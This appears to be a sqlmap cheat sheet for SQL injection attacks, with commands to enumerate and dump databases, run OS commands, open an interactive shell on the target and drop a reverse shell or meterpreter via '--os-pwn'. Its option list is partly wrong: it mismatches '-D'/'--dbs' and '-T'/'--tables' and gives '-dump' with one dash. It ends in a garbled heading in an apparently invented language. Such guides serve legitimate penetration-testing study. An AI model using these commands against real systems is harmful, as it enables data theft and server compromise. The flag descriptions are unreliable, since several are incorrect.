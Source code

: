 ```
$ pip install sqlmap
```

#### Basic Usage

To perform a basic SQL injection test on a target URL, you can use the following command:

```
$ sqlmap -u <target_url>
```

Replace `<target_url>` with the URL of the vulnerable web application.

#### Advanced Usage

SQLMap provides a wide range of options and features for advanced SQL injection testing. Some of the commonly used options include:

- **-p, --param**: Specify the parameter to test for SQL injection.
- **-D, --dbs**: Enumerate the available databases.
- **-T, --tables**: Enumerate the tables in a specific database.
- **-C, --columns**: Enumerate the columns in a specific table.
- **-dump**: Dump the contents of a specific table.
- **--os-shell**: Get an interactive operating system shell on the target server.

For example, to dump the contents of a specific table, you can use the following command:

```
$ sqlmap -u <target_url> --tables -D <database_name> --dump -T <table_name>
```

Replace `<database_name>` with the name of the database and `<table_name>` with the name of the table.

#### Shell Access

SQLMap also provides the ability to gain a shell on the target server. To access the shell, you can use the following command:

```
$ sqlmap -u <target_url> --os-shell
```

This will open an interactive shell on the target server, allowing you to execute commands and interact with the underlying operating system.

#### Conclusion

SQLMap is a powerful tool for automating SQL injection testing in web applications. By using its various options and features, you can efficiently detect and exploit SQL injection vulnerabilities, enumerate databases, tables, and columns, and even gain shell access on the target server.
```bash
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```
## SQLmap-vaDmey vItlhutlh
